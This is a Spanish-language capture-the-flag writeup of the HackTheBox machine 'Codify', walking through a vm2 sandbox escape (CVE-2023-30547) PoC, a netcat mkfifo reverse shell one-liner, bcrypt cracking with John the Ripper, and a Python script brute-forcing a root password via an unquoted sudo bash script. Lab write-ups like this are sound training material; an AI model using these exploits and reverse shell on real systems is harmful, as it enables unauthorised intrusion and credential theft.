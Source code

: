 ```yaml
---
layout: single
title: HTB codify writeup
date: 2023-11-07
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen || </h1><br>
<div style="text-align: justify;">
Codify es una máquina Linux que ejecuta un servidor HTTP y aloja una aplicación web desactualizada. Aprovecharemos las vulnerabilidades en esta aplicación para acceder al sistema, donde descubriremos credenciales encriptadas en formato bcrypt. Estas credenciales pueden ser explotadas de manera sencilla utilizando John The Ripper. Una vez que hayamos obtenido acceso al usuario Joshua, investigaremos cómo vulnerar un código en bash que cuenta con permisos sudo pero no está implementado con todas las medidas de seguridad necesarias. Esto nos permitirá elevar nuestros privilegios al nivel de root.
</div>
<br>
# Reconocimiento

## Puertos

Realizamos un escaneo rápido de puertos y versiones de servicios a la máquina víctima:

```shell
└─$ nmap -p- -sV 10.10.11.239 -T5 -oN nmap.txt -vvv
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175436.png)


## Web

El puerto 80 tiene un servidor http activo: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175901.png)

A simple vista hay tres páginas: `/limitations`, `/about`, `/editor`.

El servidor contiene una aplicación web que permite testear código Node JS. Una Reverse Shell sencilla en este lenguaje no funciona por los módulos restringidos: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180512.png)

La aplicación funciona mediante la libreria vm2 en la versión 3.9.16. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180126.png)



# Penetración 

## Web

La versión 3.9.16 de la librería vm2 tiene una vulnerabilidad registrada como [CVE-2023–30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547), que permite escapar de las restricciones del editor. Con ello podemos ejecutar código malicioso y una reverse shell con la que acceder al sistema víctima. 


### Exploit

Haremos uso del siguiente [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107181134.png)

Una vez confirmada la vulnerabilidad, el acceso es ya algo mecánico. Abrimos puerto en escucha: 

```shell
nc -lvp <port>
```

Introducimos una [reverse shell](https://www.revshells.com/) con el siguiente comando: 

```shell 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your ip> <port> >/tmp/f
```



![](/assets/images/HTB-writeup-codify/Pasted image 20231107181459.png)

Una vez dentro, vamos a necesitar, por comodidad, una shell con todas sus funciones. Habrá que ejecutar lo siguiente: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

En `/home` vemos un usuario posiblemente vulnerable: `joshua`
En `/var/www/contact` hay un archivo SQLite con un hash en bcrypt. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182336.png)

Con John The Ripper se tarda menos de treinta segundos en hacerse cargo de ella: 

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```


# Acceso y Escalada de Privilegios

```shell
ssh joshua@10.10.11.239
```

Aquí está la flag `user.txt`.

Para escalar privilegios vamos a revisar qué puede hacer nuestro usuario Joshua: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182843.png)

Parece ser que podemos ejecutar un comando con permisos sudo que pregunta por la contraseña root. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183231.png)

Está programado con ciertas vulnerabilidades de seguridad. Al no estar las variables entre comillas, nos permite realizar que se lean como comandos y no sólo como variables.

El camino fácil es construir un script en python que automatice el trabajo de fuerza bruta. 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Lo creamos en `/tmp`, le damos permisos de ejecución y nos da la contraseña en cuestión de minutos. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183856.png)

